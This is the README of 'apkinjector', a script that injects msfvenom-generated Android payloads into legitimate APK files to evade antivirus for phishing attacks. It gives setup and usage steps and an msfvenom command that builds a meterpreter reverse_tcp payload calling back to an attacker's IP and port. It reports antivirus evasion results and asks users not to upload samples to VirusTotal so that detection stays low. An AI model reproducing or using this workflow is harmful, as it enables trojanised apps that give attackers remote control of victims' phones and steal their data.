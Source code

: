 # apkinjector
Android APK Antivirus evasion for msfvenom generated payloads to inject into another APK file for phishing attacks.
<br><br>
<b> -- Please do not upload "injected" files to VirusTotal.com -- </b><br>
<br>
<br>
<b>CURRENTLY NEEDS WORK. Tested against 2 apps with no issues. On the 3rd app the grep was unable to locate the MAIN function smali launcher in AndroidManifest.xml. Need to refine this, or simple allow the user to copy/paste the smali path into the code to automate from that point</b>
<br><br>
Plan to use something like the following: grep -B 3 -A 2 android.intent.action.MAIN /tmp/original/AndroidManifest.xml <br>
Just need to implement it. Will get to it soon.<br>
<br><br>
<b>Setup:</b><br>
chmod +x apkinjector<br>
mv apkinjector /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apktool \<payload>.apk \<original>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input along with an .apk you want to inject into.<br>
To generate the payload: msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
injected_\<original>.apk<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 16Feb17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload and /tmp/original directories to see the file structure that was compiled.<br>
